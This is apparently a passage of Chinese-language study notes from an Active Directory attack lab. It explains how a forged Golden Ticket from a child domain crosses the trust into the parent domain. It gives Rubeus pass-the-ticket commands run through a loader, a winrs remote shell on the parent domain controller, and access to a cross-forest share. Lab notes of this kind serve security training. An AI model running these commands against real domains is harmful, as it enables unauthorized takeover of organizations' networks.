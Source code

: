 | 帳號                  | RID |
| ------------------- | --- |
| Domain Admins       | 512 |
| Domain Users        | 513 |
| Enterprise Admins   | 519 |
| Administrators (本機) | 544 |
>[!TIP]
>拿到 `DOLLARCORP.MONEYCORP.LOCAL` 的 Golden Ticket **不會自動就能進去 `moneycorp.local`**。  除非這兩個域之間有 **信任關係 (Trust)**，而且信任沒有做額外限制，你才能用 DOLLARCORP 的 Golden Ticket 透過信任去換到 moneycorp.local 的存取，這個情境能用 DOLLARCORP 的 Golden Ticket 存取 moneycorp.local，**是因為兩個 domain 之間本來就有 AD 的父子關係 (domain trust)**。
- 拿到金票卷後，要轉成TGS並注入當前Sessions
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgs /service:http/mcorp-dc.MONEYCORP.LOCAL /dc:mcorp-dc.MONEYCORP.LOCAL /ptt /ticket:doIGPjCCBjqgAwIBBaED...
```
```
winrs -r:mcorp-dc.moneycorp.local cmd
```
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgs /service:cifs/eurocorp-dc.eurocorp.LOCAL /dc:eurocorp-dc.eurocorp.LOCAL /ptt /ticket:doIGPjCCBjqgAwIBBaED...
```
```
dir \\eurocorp-dc.eurocorp.local\SharedwithDCorp\
```























